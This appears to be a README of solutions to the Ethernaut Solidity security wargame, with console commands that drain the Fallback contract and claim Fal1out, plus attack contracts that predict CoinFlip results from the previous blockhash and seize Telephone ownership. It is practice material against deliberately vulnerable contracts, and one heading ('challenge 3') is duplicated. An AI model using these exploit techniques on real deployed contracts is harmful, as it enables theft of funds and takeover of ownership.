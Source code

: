 # ethernaut-challenges

### challenge 1
await contract.contribute({value: toWei("0.000001")})

await contract.sendTransaction({value: toWei("0.000001")})

await contract.withdraw()

### challenge 2
Constructor spelled incorrectly


await contract.Fal1out({value: toWei("0.00000001")})

### challenge 3

```
pragma solidity ^0.8.0;

import "https://github.com/OpenZeppelin/openzeppelin-contracts/contracts/utils/math/SafeMath.sol";

interface CoinFlip {
    function flip(bool) external;
}

contract Attack {
    address cF = 0x30C7A39F911f075F45434357af31Ec5aaA9828bb;

    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    uint256 public value;

    function attack() public returns (uint256){
        uint256 blockValue = uint256(blockhash(block.number - 1));

        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        CoinFlip(cF).flip(side);

        return blockValue;
    }
}
```

### challenge 3

```
pragma solidity ^0.8.0;

interface Telephone {
    function changeOwner(address) external;
}

contract Attack {
    address telephoneAddress = 0x0bDb4C476e8719Db25Baac7Ab796008023C5Ed3A;
    address myAddress = 0xD0eba5f813cEfa1FD5f60E11feCD84f39a9dDA88;

    function attack() public {
        Telephone(telephoneAddress).changeOwner(myAddress);
    }
}
```
